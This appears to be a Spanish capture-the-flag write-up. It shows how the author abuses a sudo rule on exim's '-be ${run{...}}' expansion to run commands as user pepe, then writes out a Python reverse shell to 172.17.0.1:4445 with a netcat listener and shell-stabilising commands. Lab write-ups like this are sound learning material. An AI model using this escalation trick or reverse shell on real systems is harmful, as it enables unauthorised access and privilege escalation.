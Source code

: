 ![Screenshot From 2024-11-02 15-51-58](https://github.com/user-attachments/assets/b9c5787e-169d-41d0-8c7a-6b018872df66)

la verdad tuve que leer mucha documentacion, muchas puebas y errores hasta que logre dar con la ejecucion de comandos

`exim -be '${run{/bin/bash -c "comando"}}'`

aunque fuera sido tan facil como consultarle a la inteligencia artificial y automaticamente me lo da sin haber hecho mucho esfuerzo (pero eso no tiene merito alguno),
pero existe un problema al intentar lanzar una bash como el user pepe

```
maci@9c13e159e6ea:~$ sudo -u pepe /usr/sbin/exim -be '${run{/bin/bash -c "bash -p"}}'

maci@9c13e159e6ea:~$ sudo -u pepe /usr/sbin/exim -be '${run{/bin/bash -c "/bin/bash"}}'
```

no puedo obtener la bash asi como asi, asi que creare un script en python que me envie una revershell

```
nano /tmp/revershell.py
```
```
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.17.0.1", 4445))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
import pty
pty.spawn("/bin/bash")

```
le asigno permisos de ejecucion `chmod +x /tmp/revershell.py`, me coloco en escucha netcat en mi maquina atacante `nc -lnvp 4445` y ejecuto el script como el user
pepe `sudo -u pepe /usr/sbin/exim -be '${run{/bin/bash -c "python3 /tmp/revershell.py"}}'`, chequeo netcaat y he recibido la conexion como el user pepe

# User pepe

tratando la bash
```
export SHELL=bash
export TERM=xterm
script /dev/null -c bash
^Z
stty raw -echo; fg
reset xterm
stty rows 38 columns 168

```
